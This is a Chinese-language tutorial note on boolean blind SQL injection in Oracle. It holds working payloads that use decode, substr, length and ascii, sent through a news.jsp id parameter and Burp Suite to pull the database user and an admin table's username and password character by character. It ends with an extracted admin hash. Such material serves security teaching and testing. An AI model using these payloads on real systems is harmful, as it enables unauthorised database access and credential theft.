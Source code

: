 ## 1、在oracle两种利用布尔型实现盲注入方法

是否存在注入 根据页面的返回不同 从而判断注入点。

出数据 通过注入点 构造的SQL语句 判断页面是否正常。

## 2、decode盲注入

decode(字段或字段的运算，值1，值2，值3,这个函数运行的结果是，当字段或字段的运算的值等于值1时，该函数返回值2，否则返回3

当然值1，值2，值3也可以是表达式，这个函数使得某些sql语句简单了许多

使用方法： 比较大小

select decode(sign(变量1-变量2),-1,变量1,变量2) from dual; --取较小值

sign()函数根据某个值是0、正数还是负数，分别返回0、1、-1

例如：

变量1=10，变量2=20

则sign(变量1-变量2)返回-1，decode解码结果为“变量1”，达到了取较小值的目的。

![img](../../acess/1.jpg) 

1+3=4 返回1 不等于返回0

```sql
select decode(1+3,4,1,0) from dual;
select decode(user,'SYSTEM',1,0) from dual;
```

获取当前用户  (select user from dual)
获取当前版本 (select banner from sys.v_$version where rownum=1)
获取当前admin表的帐号和密码 (select username||password from admin)

获取字符长度

```sql
select length(user) from dual --
select * from art where id=1 and 6=(select length(user) from dual) -- 
```

```http
http://www.jsporcle.com/news.jsp?id=1 and 6=(select length(user) from dual) --
```

当前用户第一个字母的是否等于S 等于返回1否则返回0

```sql
(select decode(substr(user,1,1),'S',1,0) from dual) --
(select decode(substr(user,2,1),'Y',1,0) from dual) --
(select decode(substr(user,3,1),'S',1,0) from dual) --
(select decode(substr(user,4,1),'T',1,0) from dual) --
(select decode(substr(user,5,1),'E',1,0) from dual) --
(select decode(substr(user,6,1),'N',1,0) from dual) --
```

测试当前用户语句

```http
http://www.jsporcle.com/news.jsp?id=1 and 1=(select decode(substr(user,1,1),'S',1,0) from dual) --
```

获取当前admin表的帐号和密码

```sql
select * from art where id=1 and 1=(select decode(substr((select username||password from admin),1,1),'a',1,0) from dual)
```

```http
http://www.jsporcle.com/news.jsp?id=1 and 1=(select decode(substr((select username%7c%7cpassword from admin),1,1),'a',1,0) from dual)
```

**判断字符的字符**

abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_. 

查询第二个的时候

```http
http://www.jsporcle.com/news.jsp?id=1 and 1=(select decode(substr((select username%7c%7cpassword from admin),2,1),'d',1,0) from dual)
```

admin

**用burpsuite测试盲注入**

![image-20210409005016783](../../acess/image-20210409005016783.png) 

## **3、盲注入通用 逐字猜解法**

先获取数据长度

```sql
select * from art where id=1 and 37=(select length(username||password) from admin);
```

burp截取数据长度

```http
http://www.jsporcle.com/news.jsp?id=1 and 37=(select length(username%7c%7cpassword) from admin)--
```

猜解ascii码

substr截取字符串长度,ascii 把字符的ASCII转出来

```sql
(select ascii(substr(username||password,1,1)) from admin); 
```

```
http://www.jsporcle.com/news.jsp?id=1 and (select ascii(substr(username%7c%7cpassword,1,1)) from admin)=97
```

配合burp，把所有ascii码找出来并转化，得到下列信息：

admine10adc3949ba59abbe56e057f20f883e